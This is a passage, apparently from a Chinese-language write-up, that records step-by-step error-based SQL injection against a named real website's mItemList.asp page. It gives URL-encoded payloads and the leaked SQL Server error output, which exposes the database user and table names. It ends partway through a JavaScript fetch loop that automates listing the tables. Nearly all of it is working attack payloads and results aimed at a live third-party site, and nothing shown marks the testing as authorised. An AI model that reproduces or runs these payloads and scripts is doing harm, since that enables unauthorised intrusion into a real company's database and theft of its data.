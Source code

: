 成功提取到 `@@version`

13. `mItemList.asp?ClsUpId=%27;SELECT%201/USER--`

```
Microsoft OLE DB Provider for ODBC Drivers 錯誤 '80004005'

[Microsoft][ODBC SQL Server Driver][SQL Server]將 nvarchar 值 'dbo' 轉換成資料類型 int 時，轉換失敗。

/_Models/mItemList.asp, 行352
```

成功提取到 `USER`

14. `%27;SELECT%20TOP%201%20name%20FROM%20sysobjects%20WHERE%20xtype%20LIKE%20%27U%27--`

```
Microsoft OLE DB Provider for ODBC Drivers 錯誤 '80004005'

[Microsoft][ODBC SQL Server Driver][SQL Server]sp_cursorfetch: 所提供的資料指標識別碼的值 (0) 無效。

/include/Json_Util.asp, 行50
```

15. `ClsUpId=%27;SELECT%201/name%20FROM%20sysobjects%20WHERE%20xtype%20LIKE%20%27U%27--`

```
Microsoft OLE DB Provider for ODBC Drivers 錯誤 '80004005'

[Microsoft][ODBC SQL Server Driver][SQL Server]將 nvarchar 值 'CashDay' 轉換成資料類型 int 時，轉換失敗。

/_Models/mItemList.asp, 行352
```

成功提取到 `CashDay`

16. `%27;SELECT%201/name%20FROM%20sysobjects%20WHERE%20xtype%20LIKE%20%27U%27%20AND%20name%20NOT%20LIKE%20%27CashDay%27--`

```
Microsoft OLE DB Provider for ODBC Drivers 錯誤 '80004005'

[Microsoft][ODBC SQL Server Driver][SQL Server]將 nvarchar 值 'temp_OutPrvdInv_11302' 轉換成資料類型 int 時，轉換失敗。

/_Models/mItemList.asp, 行352
```

成功提取到 `temp_OutPrvdInv_11302`

17. `%27;SELECT%201/name%20FROM%20sysobjects%20WHERE%20xtype%20LIKE%20%27U%27%20AND%20name%20NOT%20LIKE%20%27CashDay%27%20AND%20name%20NOT%20LIKE%20%27temp_OutPrvdInv_11302%27--`

成功提取到 `tempAccPeremXL_20250710`

18. 提取 table_names

```js
const table_names = [];
const fixedUrl = `https://xl-stationer.com.tw/_Models/mItemList.asp?ClsUpId=';SELECT 1/name FROM sysobjects WHERE xtype LIKE 'U'`;
async function main() {
  for (let i = 0; i < 1; i++) {
    const andSyntax = table_names
      .map((table_name) => ` AND name NOT LIKE '${table_name}'`)
      .join("");
    const fullUrl = `${fixedUrl}${andSyntax}--`;
    const res = await fetch(fullUrl);
    const text = await res.text();
    const table_name = text.split("'")[1] === "80004005" && text.split("'")[3];
    if (table_name) table_names.push(table_name);
    else break;
```